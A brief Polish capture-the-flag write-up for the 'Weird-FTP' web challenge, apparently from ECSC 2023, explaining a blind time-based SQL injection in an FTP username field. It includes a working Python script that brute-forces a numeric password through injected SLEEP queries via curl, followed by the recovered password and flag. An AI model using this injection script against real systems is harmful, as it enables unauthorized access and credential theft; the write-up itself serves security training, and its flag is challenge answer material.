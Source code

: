 # Weird-FTP - web

![](../images/ebcb5a51-3da6-44d8-8b7c-73a7b1b1e249.png)

Pole username'a jest vulnerable na blind SQLi, dlatego można zbruteforceować hasło, które jest tylko złożone z cyfr.

```python=
from datetime import datetime
import os
import string
from time import sleep


passwd = ""
i = 1
while True:
    for c in string.digits:
        st = datetime.now().timestamp()
        os.system(f"""curl "ftp://boss'%20AND%20IF(SUBSTRING(password%2C1%2C{i})%3D'{passwd}{c}'%2CSLEEP(2)%2C'a')%3B%20--%20:1@ftp.ecsc23.hack.cert.pl:5005/" -vvvv 1> /dev/null 2>&1""")

        print(datetime.now().timestamp() - st)

        if datetime.now().timestamp() - st > 1.95:
            passwd += c
            i += 1
            print(f"found: {c=}, {passwd=}")
            break
        sleep(1)
    else:
        print("passwd:", passwd)
        exit(0)
```

Hasło dla konta `boss`: `7897812918028196`

```shell=
~/s/c/h/weird-ftp: curl ftp://boss:7897812918028196@ftp.ecsc23.hack.cert.pl:5005/
-rw-r--r--   1 root     root           41 Jul 14 11:31 flag.txt
~/s/c/h/weird-ftp: curl ftp://boss:7897812918028196@ftp.ecsc23.hack.cert.pl:5005/flag.txt
ecsc23{863b2b472ee544109a7b066256df0ea5}
```

Flag: `ecsc23{863b2b472ee544109a7b066256df0ea5}`
